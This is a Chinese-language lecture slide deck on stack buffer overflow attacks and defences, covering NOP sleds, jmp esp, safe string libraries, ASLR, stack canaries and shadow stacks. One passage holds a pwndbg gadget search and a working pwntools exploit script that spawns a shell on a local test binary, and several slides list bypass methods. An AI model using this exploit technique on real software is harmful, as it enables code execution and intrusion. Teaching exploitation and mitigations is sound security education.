



---
presentation:
  width: 1600
  height: 900
  slideNumber: 'c/t'
  showSlideNumber: "all"
  center: true
  enableSpeakerNotes: true
  theme: none.css
---


<!-- slide data-notes="" -->
# 栈溢出
<!-- slide data-notes="" -->
## 基础栈溢出

<div id="left">

- 覆盖返回地址，shellcode位与栈上
    - 问题：攻击者如何精确定位shellcode的地址
    - 解决：NOP slide
- 猜测大概的栈地址
- 在shellcode前面填充大量NOPs

</div>


<div id="right">



</div>

<!-- slide data-notes="" -->
<div id="left">

## 基础栈溢出

- 覆盖返回地址，shellcode位与栈上
    - 问题：如果buffer长度小于shellcode长度
    - 解决：RNS模式
- 把shellcode放在内存的高位上（调用者的栈帧）

</div>

<div id="right">



</div>

<!-- slide data-notes="" -->
## 防御控制流劫持

- 修复漏洞
- 保护控制数据的完整性
- 强化安全策略

<!-- slide data-notes=""-->
## 防御手段：安全的库
### 关于字符串的危险库函数：
- strcpy (char	*dest,	const char	*src)
- strcat (char	*dest,	const char	*src)
- gets (char	*s)
- scanf (	const char	*format,	...	)
- 。。。
### libsafe：替换libc之类的库，提供strcpy()等危险函数的安全实现
### gcc强化源代码：用安全版本的ctrcpy_chk()代替strcpy()

<!-- slide data-notes="" -->
## 防御手段：安全的库
### 优势
- 易于部署
- 低开销
### 劣势
- 需要修改替换旧代码
- 无法消除其他类型的缓冲区溢出（危险函数只是很小一部分的漏洞）
### 绕过
- 攻击者可以寻找大量的其他漏洞
<!-- slide data-notes="" -->
## 例子：其他漏洞
- off-by-one
```
char buffer[20];
for(int i = 0;i <= 20;i++) buffer[i] = ....
```
- 受输入影响的缓冲区
```
buffer[input] = ...
```
<!-- slide data-notes="" -->
## 基础栈溢出的问题
- 依赖缓冲区/栈的地址，栈的地址会根据平台和每次运行而改变。
```
test.c:
    printf("%x\n",s);


lometsj@ubuntu:~$ ./test
ffd92ae6
lometsj@ubuntu:~$ ./test
ffa968c6
lometsj@ubuntu:~$ ./test
ff8c2d66

```
- 如何构造一个适用于大多数平台的攻击？
<!-- slide data-notes="" -->
## jmp esp

<div id="left">

- 寻找指令"jmp esp"的地址
- 不需要知道shellcode的地址

</div>

<div id="right">



</div>

<!-- slide data-notes="" -->
## 到哪里寻找 "jmp esp"

"jmp esp" == '\xff\xe4'

也就是说我们需要在程序中寻找'\xff\xe4'
<!-- slide data-notes="" -->
## 寻找 "jmp esp"
找到一个地址 "0xf7dffaa9"
```
$ gdb test -q
pwndbg: loaded 164 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from test...(no debugging symbols found)...done.
pwndbg> b main
Breakpoint 1 at 0x8048519
pwndbg> r
Starting program: /home/lometsj/test 

Breakpoint 1, 0x08048519 in main ()

─────────────────────────────────[ BACKTRACE ]──────────────────────────────────
 ► f 0  8048519 main+14
   f 1 f7e15637 __libc_start_main+247
Breakpoint main
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
 0x8048000  0x8049000 r-xp     1000 0      /home/lometsj/test
 0x8049000  0x804a000 r-xp     1000 0      /home/lometsj/test
 0x804a000  0x804b000 rwxp     1000 1000   /home/lometsj/test
0xf7dfc000 0xf7dfd000 rwxp     1000 0      
0xf7dfd000 0xf7fad000 r-xp   1b0000 0      /lib/i386-linux-gnu/libc-2.23.so
0xf7fad000 0xf7faf000 r-xp     2000 1af000 /lib/i386-linux-gnu/libc-2.23.so
0xf7faf000 0xf7fb0000 rwxp     1000 1b1000 /lib/i386-linux-gnu/libc-2.23.so
0xf7fb0000 0xf7fb3000 rwxp     3000 0      
0xf7fd3000 0xf7fd4000 rwxp     1000 0      
0xf7fd4000 0xf7fd7000 r--p     3000 0      [vvar]
0xf7fd7000 0xf7fd9000 r-xp     2000 0      [vdso]
0xf7fd9000 0xf7ffc000 r-xp    23000 0      /lib/i386-linux-gnu/ld-2.23.so
0xf7ffc000 0xf7ffd000 r-xp     1000 22000  /lib/i386-linux-gnu/ld-2.23.so
0xf7ffd000 0xf7ffe000 rwxp     1000 23000  /lib/i386-linux-gnu/ld-2.23.so
0xfffdd000 0xffffe000 rwxp    21000 0      [stack]
pwndbg> find 0xf7dfd000,0xf7ffe000-1 ,(short)0xe4ff
0xf7dffaa9
0xf7e2a39d <__GI_abort+237>
0xf7edaa0b <__statvfs_getflags+427>
0xf7ef9f3d <__GI_rexec_af+429>
0xf7f04c7d <__GI___nss_gshadow_lookup2+93>
0xf7f550b7
0xf7f604b7
```
<!-- slide data-notes="" -->
## 修改攻击脚本
使用找到的"jmp esp"地址而不是程序中给出的栈的地址
```python
from pwn import *
#context.log_level = 'debug' 
p = process("./test")
sc = asm(shellcraft.i386.sh())
temp = int(p.recvline(),16)
sc_addr = '\xa9\xfa\xdf\xf7'        #p32(temp + 0x12 + 4 + 4)    
payload = 0x12 * 'a' + 'bbbb'  + sc_addr + '\x90'*10 + sc
p.sendline(payload)
p.interactive()
```
攻击成功
```python
$ python test.py
[+] Starting local process './test': pid 32720
[*] Switching to interactive mode
$ ls
010editor  Downloads  Public       Videos   openvpn  test.c
Desktop    Music      Release.key  core     pwndbg   test.py
Documents  Pictures   Templates    hitxctf  test
$ exit
[*] Got EOF while reading in interactive
$ 
[*] Process './test' stopped with exit code 0 (pid 32720)
[*] Got EOF while sending in interactive

```
<!-- slide data-notes="" -->
## 防御手段2:ASLR和PIE
位址空间配置随机载入（英语：Address space layout randomization，缩写ASLR，又称位址空间配置随机化、位址空间布局随机化）是一种防范内存损坏漏洞被利用的计算机安全技术。位址空间配置随机载入利用随机方式配置资料定址空间，使某些敏感资料（例如作业系统内核）配置到一个恶意程式无法事先获知的位址，令攻击者难以进行攻击。
- 程序每次执行的地址和libc的地址都会随机变化
- 使用固定地址的"jmp esp"攻击失效
<!-- slide data-notes="" -->
## 应对手段
### 泄漏libc基地址
即使开启地址随机化，也不是全随机的。对于linux来说，开启ASLR，libc的基地址在每一次启动时都会变化，但是libc本身是整块存入内存的。即libc中指令相对于其基地址的偏移是不会变化的。而libc本身的指令是足够getshell的，所以要对抗ASLR，可以从泄露libc基地址下手。


<!-- slide data-notes="" -->
## 防御手段3: stack cookies
### Canary 

在缓冲区和返回地址之间插入一个cookie，函数返回时会检查其是否被修改，如果与插入时的值不一致，则认为发生了缓冲区溢出。
<!-- slide data-notes="" -->
## 防御手段3: stack cookies
### 优势
- 通过随机，攻击这很难猜测到正确的cookies
- 易于编译器支持实现
### 劣势
- 旧代码需要重新编译
- 可以被绕过
### 绕过手段
- 通过信息泄漏漏洞获取cokkie
- 使用不会覆盖cookie的漏洞
- 覆盖其他敏感数据而不是返回地址

<!-- slide data-notes="" -->
## 防御手段3： 影子栈
- 把正确的返回地址保存在一个攻击者难以接触的地方
- 函数返回时把当前返回地址和保存的返回地址比较
<!-- slide data-notes="" -->
## 影子栈：StackShield
在函数开始是保存RET，在函数返回时比较。
### 优势
- 返回地址难以覆盖
### 劣势
- 高性能开销
- 保存的返回地址需要被保护
- 兼容性问题
<!-- slide data-notes="" -->
## 影子栈：SafeStack
把危险的缓冲区放置到另一个栈上。
### 优势
- 低性能开销
- 保护能力较高
### 劣势
- 需要重新编译
<!-- slide class="middle"-->

# Thanks for watching!